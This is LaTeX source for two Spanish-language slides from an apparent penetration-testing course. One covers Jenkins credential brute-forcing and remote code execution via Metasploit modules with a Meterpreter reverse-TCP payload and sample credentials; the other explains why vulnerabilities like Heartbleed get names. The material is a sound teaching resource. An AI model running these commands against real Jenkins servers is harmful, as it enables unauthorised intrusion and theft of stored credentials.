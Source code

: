 \documentclass[aspectratio=169,11pt]{beamer}
\newcommand{\lead}[1]{{\color{uznavy}\bfseries #1}\par\smallskip}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.92\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}{Jenkins: enumeración y explotación}
\footnotesize
\lead{Fuerza bruta de credenciales}
\cmdbox{use auxiliary/scanner/http/jenkins\_login\\
set RHOSTS <IP> $\cdot$ set RPORT 8080 $\cdot$ set USER\_FILE ... $\cdot$ set PASS\_FILE ...\\
run \ \ \# encuentra credenciales válidas (en el ejemplo, raj:123)}
\lead{RCE con Metasploit}
\cmdbox{use exploit/multi/http/jenkins\_script\_console\\
set TARGET Linux $\cdot$ set PAYLOAD linux/x86/meterpreter/reverse\_tcp\\
set USERNAME raj $\cdot$ set PASSWORD 123 $\cdot$ exploit}
  \begin{itemize}
  \item Jenkins es un objetivo especialmente jugoso: suele ejecutarse con privilegios altos y guarda credenciales de despliegue, tokens de repositorios y claves de infraestructura.
  \end{itemize}
\end{frame}

\section{Vulnerabilidades bien conocidas}

\begin{frame}{Por qué algunas vulnerabilidades tienen nombre propio}
\small
\lead{Algunas vulnerabilidades generan un gran impacto debido a:}
  \begin{itemize}
  \item El daño que producen.
  \item Lo relativamente sencillo de explotarlas.
  \item Que afectan a muchísimos dispositivos.
  \item Que tienen una criticidad muy alta.
  \item Que a partir de ellas se produce un incidente muy relevante.
  \end{itemize}
  \begin{itemize}
  \item Todo esto hace que, aparte de tener un CVE asignado como toda vulnerabilidad, se les ponga un nombre o seudónimo.
  \item El nombre y el logotipo no son anecdóticos: buscan que la vulnerabilidad llegue a los medios y, con ello, acelerar el parcheo. Heartbleed fue la primera en usar esta estrategia de forma deliberada.
  \end{itemize}
\end{frame}
\end{document}
